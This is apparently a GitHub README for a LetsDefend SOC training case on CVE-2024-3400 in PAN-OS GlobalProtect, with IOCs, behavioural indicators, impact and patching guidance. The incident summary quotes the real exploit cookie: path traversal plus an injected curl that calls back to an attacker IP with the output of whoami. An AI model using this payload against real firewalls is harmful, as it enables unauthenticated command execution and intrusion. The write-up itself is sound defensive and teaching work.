









# letsdefend-cve2024-3400-case-study
Detection, analysis, and response strategies for CVE-2024-3400 exploitation attempts targeting Palo Alto PAN-OS GlobalProtect portals. Includes IOCs, exploit patterns, and mitigation guidance.

# CVE-2024-3400 Incident Investigation

# 🔍 Overview

This repository contains a detailed investigation and threat analysis of **CVE-2024-3400**, a critical unauthenticated command injection vulnerability affecting **Palo Alto Networks PAN-OS** software, specifically targeting the GlobalProtect portal.

On April 18, 2024, exploitation activity was detected against an internal PAN-OS firewall using the vulnerable `/global-protect/login.esp` endpoint. The attacker used a crafted `SESSID` cookie containing a backtick-executed `curl` command to reach a remote C2 server hosted at `144.172.79.92` (Miami, Florida). The exploit payload leveraged `${IFS}` to bypass simple filters and used PAN-OS’s telemetry directory to stage malicious activity. The firewall responded with a `200 OK`, indicating that the payload was likely executed successfully.

## 📄 Incident Summary

- **Event ID**: 249  
- **Detection Rule**: SOC274 – PAN-OS Command Injection Exploitation  
- **Event Time**: April 18, 2024, 03:09 AM UTC  
- **Hostname**: `PA-Firewall-01`  
- **Destination IP**: `172.16.17.139`  
- **Source IP**: `144.172.79.92`  
- **Request Method**: `POST`  
- **Endpoint**: `/global-protect/login.esp`  
- **Cookie Payload**: `SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaacurl${IFS}144.172.79.92:4444?user=$(whoami)`

- **Malicious Hashes**:  
- **SHA256**: `3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac`
- **MD5**: `0c1554888ce9ed0da1583dbdf7b31651`
- **Malicious Script**: `update.py` (executed using `/usr/bin/python3`)

## 🧠 Threat Intelligence

### Step 1: Initial Exploit Detection by searching on malpedia  

### Step 2: Analyzing and investigating the hash  

### Step 3: Another investigation  

### Step 4: IP address investigation  

## 🧠 Behavioral Indicators

- Abuse of `SESSID` for command injection
- Use of `${IFS}` for evasion
- Payload staging in `/opt/panlogs/tmp/device_telemetry`
- Involvement of the `dt_send` process post-exploitation
- Network callback to attacker's IP on port `4444`

---

## 📄 Log Evidence

---

## 🧩 Hash Correlation

---

## ✅ Points Gained LetsDefend

## 🚨 Impact

- Remote unauthenticated command execution on a core security appliance
- Possible download and execution of attacker-controlled Python payload
- Abuse of PAN-OS internal telemetry mechanisms for staging or exfiltration
- Allowed traffic from a known malicious IP

## ✅ Recommended Response Actions

1. **Patch PAN-OS** to versions: `10.2.9-h1`, `11.0.4-h1`, or `11.1.2-h3`
2. **Block Malicious IP**: `144.172.79.92`
3. **Search for Indicators of Compromise (IOCs)** in logs and file systems
4. **Inspect telemetry directories** for suspicious files or execution behavior
5. **Isolate affected systems** and perform a full forensic analysis

## 📁 Contents

- `logs/`: Parsed and raw detection logs
- `ioc/`: File hashes and IPs associated with the attack
- `analysis/`: Deep dive into exploit behavior and process tracing
- `report/`: Summary and Images of the logs and codes of my investigations

---

## What is CVE-2024-3400
CVE-2024-3400 refers to a critical vulnerability in Palo Alto Networks PAN-OS, specifically affecting GlobalProtect gateways. Here's a breakdown of what is publicly known about it:

## 🔥 CVE-2024-3400 – Palo Alto PAN-OS Command Injection Vulnerability
CVSS Score: 10.0 (Critical)

Published: April 2024

Affected Products: PAN-OS 10.2, 11.0, and 11.1 when GlobalProtect is enabled.

Exploitation: Confirmed in the wild (zero-day)

Vulnerability Type: Unauthenticated command injection

## 🧠 What’s the Risk?
CVE-2024-3400 allows unauthenticated attackers to execute arbitrary commands on the firewall’s operating system. This essentially gives full control over affected devices without needing credentials — a serious breach point for any enterprise relying on Palo Alto firewalls.

## ⚠️ Conditions Required for Exploitation:
GlobalProtect gateway must be enabled.

Specific PAN-OS versions (10.2.x, 11.0.x, 11.1.x).

Exploitable via the internet if not behind additional security layers.

## 🔎 What Attackers Are Doing:
Sending crafted requests to exploit the injection flaw.

Deploying remote shells or downloading second-stage payloads.

Observed behavior includes:

Command execution via crafted URLs

Persistence mechanisms

Lateral movement within networks

## 🛡️ Mitigation & Recommendations:
Patch Immediately: Palo Alto released fixes; upgrade to non-vulnerable versions (e.g., 10.2.9-h1, 11.0.4-h1, 11.1.2-h3 or later).

Check for Indicators of Compromise (IOCs) such as suspicious processes, outbound connections, or unusual CLI history.

Use tools like Shodan or asset inventories to find vulnerable appliances.

## 🛠️ How to Investigate (e.g., via LetsDefend or SIEM):
Look for external IPs accessing GlobalProtect without valid authentication.

Check for suspicious command execution in logs (show system processes, cat /etc/passwd, etc.).

Monitor firewall behavior and alert on anomalous outbound connections.

> This repository serves both as an internal investigation report and an educational resource for defenders seeking to understand real-world exploitation of PAN-OS vulnerabilities. Contributions and additional observations are welcome.

